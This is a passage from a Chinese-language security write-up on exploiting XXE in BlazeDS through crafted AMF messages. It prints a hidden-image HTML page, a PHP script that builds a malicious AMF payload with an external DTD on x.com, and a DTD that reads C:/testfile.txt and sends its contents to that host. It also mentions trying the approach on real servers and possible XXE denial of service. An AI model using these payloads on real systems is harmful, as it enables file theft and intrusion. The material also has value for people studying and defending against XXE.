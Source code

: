 ```
<html><body>
Burp Suite + BlazeDS
<img src="http://x.com/test/amf_win.php" style="display:none"/>
</body></html>

```

其中调用的`amf_win.php`内容如下，该代码的作用就是输出一个恶意构造的含有XML的AMF数据：

```
<?php

function amf_exploit() {
    $header = pack('H*','00030000000100036162630003646566000000ff0a000000010f');
    $xml = '<!DOCTYPE x [ <!ENTITY % dtd SYSTEM "http://x.com/test/dyndtd_win.xml"> %dtd; ]><x/>';
    $xml_sz = pack('N', strlen($xml));
    return ($header . $xml_sz . $xml);  
}

header('Content-Type: application/x-amf');
print(amf_exploit());

?>

```

其中，调用的`dyndtd_win.xml`内容如下，目的就是读取C盘下的testfile.txt，然后发送至我们的服务器x.com上：

```
<!ENTITY % yolo SYSTEM 'file:///C:/testfile.txt'>
<!ENTITY % c "<!ENTITY &#37; rrr SYSTEM 'http://x.com/?%yolo;'>">
%c;
%rrr;

```

接着，我们打开BurpSuite，访问我们精心构造的页面进行抓包。

![p4](http://drops.javaweb.org/uploads/images/8fe6c9ec42e047b5ec159f08b820997b2d52ab46.jpg)

可以看到，我们打开fortest.html后，burp会访问`amf_win.php`，在Wireshark中，我们可以看到我本机的C:\testfile.txt的内容this is a secret!被发送至服务器端。

0x06 额外
=======

* * *

1.  对于BlazeDS，你可以通过 %foo; ]>Parameter entity 3的方法来快速暴露出其所在的程序路径，接着就可以继续通过前面所述的方法来进行目录文件列举，寻找我们感兴趣的文件。如下图所示：
    
    ![p5](http://drops.javaweb.org/uploads/images/ed8e915dbd7959b9ec432b96e429abd2b6e0bef6.jpg)
    
2.  XXE读取文件内容上的限制使得我们能读取的敏感内容受到限制，具体如何利用该漏洞进行下一步，就看各自的发挥了。
    
3.  在一些对实际案例的测试（包括腾讯某服务器或是一些vCloud Director服务器）中发现，如果使用外部的DTD，一些服务器返回的错误信息是如下的样子：
    
    ```
    [!] Connection OK, but a timeout was reached...
    
    ```
    
    造成这个错误信息的原因猜测可能是服务器禁止了外部资源的访问。对于这些服务器，无法使用外部DTD，参数实体又只能在外部DTD中被引用，使得上述的报错读取文件的方法变得不可行。不过，通过XXE来进行拒绝服务可能是可行的，由于担心对目标服务器造成不良影响，并未进行进一步的测试。